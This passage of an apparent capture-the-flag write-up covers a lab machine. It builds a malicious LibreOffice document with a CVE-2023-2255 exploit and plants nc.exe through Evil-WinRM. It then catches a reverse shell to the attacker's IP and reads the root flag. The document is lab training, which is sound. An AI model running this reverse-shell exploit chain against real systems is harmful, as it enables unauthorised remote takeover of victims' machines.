We find this exploit [https://github.com/elweth-sec/CVE-2023-2255](https://github.com/elweth-sec/CVE-2023-2255).

With this exploit, we can create a malicious file for a user to open.

```shell
$ python CVE-2023-2255.py --cmd "cmd.exe /c C:\users\public\nc.exe 10.10.14.12 5555 -e cmd" --output .\important.odt
File .important.odt has been created !
```

Upload `nc.exe` to the public folder.

```shell
*Evil-WinRM* PS C:\users\public> upload nc.exe
 
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!
```

Now upload the exploit to `C:\Important Documents` and start the listener.

![](../assets/Pasted%20image%2020250514212755.png)

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.14] 62878
Microsoft Windows [Version 10.0.19045.4355]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\LibreOffice\program>whoami
whoami
mailing\localadmin
```

## Post Exploitation

Get the flag

```shell
C:\Users\localadmin\Desktop>type root.txt
type root.txt
a7ffff38272fb5df4cce86e605bcfe5a
```
